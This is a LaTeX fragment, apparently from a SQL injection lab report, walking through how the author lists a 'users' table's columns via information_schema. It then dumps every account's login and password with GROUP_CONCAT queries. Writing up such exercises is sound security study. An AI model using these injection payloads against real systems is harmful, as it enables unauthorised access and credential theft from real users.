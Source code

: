\documentclass{article}
\begin{document}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-3.png}
    \caption{\label{fig:sqliattack-3}Column showing table names}
\end{figure}
We see a table named "users". Knowing that such a table exists, we input "select GROUP\_CONCAT(column\_name,'\textbackslash n') from information\_schema.columns where table\_name='users'". \ref{fig:sqliattack-4}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-4.png}
    \caption{\label{fig:sqliattack-4}Column showing “users” table’s columns}
\end{figure}
Finally, we input "select GROUP\_CONCAT(login,":",password,"\textbackslash n") from users" to find out the account credentials of all registered users. \ref{fig:sqliattack-5}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-5.png}
    \caption{\label{fig:sqliattack-5}Column showing all account credentials}
\end{figure}
\end{document}
